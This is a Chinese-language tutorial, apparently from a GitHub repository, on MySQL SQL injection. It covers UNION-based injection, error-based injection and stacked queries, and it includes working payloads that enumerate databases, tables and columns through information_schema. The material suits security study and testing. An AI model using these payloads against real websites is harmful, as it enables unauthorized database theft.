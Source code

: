# 回显注入法--能在页面直接显示结果
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 UNION联合查询
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 通过 union 操作符，合并两个或者多个select语句的结果集
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;union内部的select语句必须拥有**相同数量的列**，列的数据类型必须相似，列的顺序也必须相同
![](/assets/WX20190221-152225@2x.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: union注入法前提要**知道列数**和**页面能回显**
```sql
确定列数: order by NUM，NUM采用二分方法加快查询速度，NUM回显报错就说明超过列数
显示位置: 参数 union select num1，num2，..,NUM，参数要强制报错，才能显示返回数据的位置
查询库: union select num1,group_concat(schema_name) from information_schema.schemata
查询表: union select num1,group_concat(table_name) from information_schema.tables where table_schema=database()
查询列: union select num1,group_concat(column_name) from information_schema.columns where table_name='表名'(注1)
查数据: union select num1,concat_ws(0x7e,列名,列名) from 库名.表名

注意点: 1.表名加引号，推荐改为十六进制

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 报错查询
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 构造payload让信息通过错误提示回显出来
![](/assets/F959A1FB7211CB335A3944DE5CBA4FF1.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 经典报错函数（结合Burpsuite快速获取内容）
![](/assets/2DA57441F54D5F917232F998ACD62900.png)
![](/assets/7DF1248C5FA74AA8624787ECEBB8C368.png)
```sql
and (select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2))) %23
select version()可替换 select table_name from information_schema.tables where table_schema=database() limit 0,1
```
![](/assets/22F086091F949BB64B59D97865EFE310.png)
![](/assets/26024E61529BC7DF606D3641DB676AAB.png)

**注意: [其他报错方式](https://www.waitalone.cn/mysql-error-based-injection.html)、报错返回会有32限制(采用substr(concat(内容),1,2)截取)**
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 堆叠注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 堆叠查询可以执行多条SQL语句，语句之间以分号(;)隔开
[堆叠注入实战](https://blog.csdn.net/SouthWind0/article/details/82929895)、[各库堆叠注入](https://www.cnblogs.com/0nth3way/articles/7128189.html)、









